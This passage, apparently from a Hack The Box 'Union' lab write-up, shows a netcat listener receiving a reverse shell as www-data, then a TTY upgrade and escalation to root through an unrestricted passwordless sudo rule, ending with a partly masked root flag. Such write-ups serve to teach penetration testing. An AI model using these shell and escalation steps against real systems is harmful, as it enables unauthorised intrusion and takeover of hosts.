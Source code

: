 

    oxdf@parrot$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.128 49486
    bash: cannot set terminal process group (793): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@union:~.md$ 



I'll upgrade my shell with `script`:



    www-data@union:~.md$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null 
    www-data@union:~.md$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@union:~.md$ 



## Shell as root

It was clear in the PHP code that www-data has to be able to run
`sudo iptables` in order to open ports in the firewall. Running
`sudo -l` shows this account has much more privilege:



    www-data@union:~.md$ sudo -l
    Matching Defaults entries for www-data on union:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

    User www-data may run the following commands on union:
        (ALL : ALL) NOPASSWD: ALL



It can run any command using `sudo` without a password. I'll use this to
get a shell:



    www-data@union:~.md$ sudo bash
    root@union:/var/www.md#



And grab the root flag:



    root@union:~# cat root.txt
    92471af0************************







